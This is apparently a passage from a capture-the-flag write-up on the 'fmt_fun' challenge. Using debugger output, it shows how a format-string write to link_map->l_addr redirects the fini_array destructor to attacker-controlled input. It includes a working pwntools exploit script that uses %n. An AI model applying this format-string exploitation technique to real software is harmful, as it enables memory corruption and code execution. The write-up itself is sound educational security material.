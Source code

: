 
Let's break at **0x7ffff7fe0f36** to see it in action.

```
───────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7ffff7fe0f25                  jne    0x7ffff7fe0fd0
   0x7ffff7fe0f2b                  mov    r14, QWORD PTR [rax+0x8]
   0x7ffff7fe0f2f                  mov    rax, QWORD PTR [r15+0x120]
●→ 0x7ffff7fe0f36                  mov    rsi, QWORD PTR [r15]
   0x7ffff7fe0f39                  mov    rdx, QWORD PTR [rax+0x8]
   0x7ffff7fe0f3d                  add    rsi, r14
   0x7ffff7fe0f40                  shr    rdx, 0x3
   0x7ffff7fe0f44                  mov    QWORD PTR [rbp-0x38], rsi
   0x7ffff7fe0f48                  lea    eax, [rdx-0x1]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
$r14   : 0x0000000000403db8  →  0x0000000000401180  →  <__do_global_dtors_aux+0> endbr64
$r15   : 0x00007ffff7ffe190  →  0x0000000000000000
```

As we can see, **$r14** contains our pointer to our destructor and **$r15** contains l_addr offset.

If we can somehow modify the value inside **$r15**, we can offset the pointer elsewhere.

Thankfully for us, because `link_map->l_addr` is used for dynamic resolution, our linker would've already referenced it before the program and pushed it onto the stack below.

Let's break at `printf+170` to look at the stack at the point where we run our format string.

```
gef➤  telescope -l 50
...
<TRUNCATED>
...
0x00007fffffffc3f0│+0x0180: 0x00007ffff7ffe190  →  0x0000000000000000
```

As we can see we have our pointer to l_addr kying on the stack,
With our format string, we can modify this value to offset our destruction function pointer to point to our own input, and call win.

#### Exploit Script

```python
from pwn import *
p = process("./fmt_fun")
payload = b"%658c"
payload += b"%26$n"
# fini_array + 658 = buf + len(payload)
payload += p64(0x401251)
p.sendline(payload)
p.interactive()
```

## rope (474 pts) - 18 solves
---
